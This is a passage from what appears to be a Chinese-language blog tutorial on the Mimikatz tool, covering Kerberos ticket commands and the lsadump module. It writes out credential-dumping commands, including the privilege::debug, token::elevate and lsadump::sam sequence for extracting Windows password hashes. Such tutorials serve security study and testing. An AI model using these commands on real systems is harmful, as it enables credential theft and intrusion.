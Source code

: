 
```text
kerberos::purge
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007163145104.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

![](https://img-blog.csdnimg.cn/20201007163153124.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**tgt:为当前用户获取当前TGT**  


```text
kerberos::tgt
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007163220394.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


### \*\*\*\*[**lsadump**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump)\*\*\*\*

该模块与Windows本地安全机构（LSA）交互以提取凭据。这些命令大多数都需要调试权限（privilege :: debug）或本地系统。默认情况下，管理员组具有调试权限。仍然必须通过运行“ privilege :: debug”来“激活”调试  


> 命令：sam, secrets, cache, lsa, trust, backupkeys, rpdata, dcsync, netsync

**backupkeys** 

```text
lsadump::backupkeys
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007163701370.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**cache：获取syskey，以system身份运行该命令**  


```text
lsadump::cache 
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

 ![](https://img-blog.csdnimg.cn/20201007164308728.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​

**sam：获得syskey来解密sam，以system身份运行该命令**  


```text
privilege::debug
token::whoami
token::elevate
lsadump::sam
```

